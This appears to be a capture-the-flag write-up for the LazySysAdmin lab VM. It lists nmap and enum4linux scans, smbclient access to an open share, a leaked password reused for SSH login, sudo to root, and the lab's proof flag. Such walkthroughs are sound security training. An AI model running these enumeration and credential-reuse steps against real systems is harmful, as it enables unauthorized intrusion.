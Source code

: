 LazyAdmin: 1 write-up


scan host:

nmap -sV -A -sC -p- 192.168.2.90

nmap result:

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|_  256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Silex v2.2.7
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: LAZYSYSADMIN)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.2.38
|_  error: Closing link: (nmap@192.168.2.38) [Client exited]
Service Info: Host: Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN
|   Domain name: 
|   FQDN: lazysysadmin
|_  System time: 2017-11-01T04:00:05+10:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol



enum smb: using enum4linux tool (./enum4linux.pl -U 192.168.2.90)

from enum result see a user on the system: togie


[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\togie (Local User)


also smb shares:


 ========================================= 
|    Share Enumeration on 192.168.2.90    |
 ========================================= 
WARNING: The "syslog" option is deprecated
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]
Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.11-Ubuntu]

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	share$          Disk      Sumshare
	IPC$            IPC       IPC Service (Web server)

	Server               Comment



connect to smb share:


smbclient //192.168.2.90/share$


see file list:


smb: \> 
smb: \> dir
  .                                   D        0  Tue Aug 15 07:05:52 2017
  ..                                  D        0  Mon Aug 14 08:34:47 2017
  wordpress                           D        0  Tue Oct 31 13:49:52 2017
  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
  wp                                  D        0  Tue Aug 15 06:51:23 2017
  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
  apache                              D        0  Mon Aug 14 08:35:19 2017
  index.html                          N    36072  Sun Aug  6 01:02:15 2017
  info.php                            N       20  Tue Aug 15 06:55:19 2017
  test                                D        0  Mon Aug 14 08:35:10 2017
  old                                 D        0  Mon Aug 14 08:35:13 2017




Open deets.txt in browser: http://192.168.2.90/deets.txt
"
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
"


login to system over ssh with user:togie and password: 12345


togie user in sudories so just execute sudo su to become a root user:


get proof.txt in root:


WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/lazysysadmin-1/proof.png)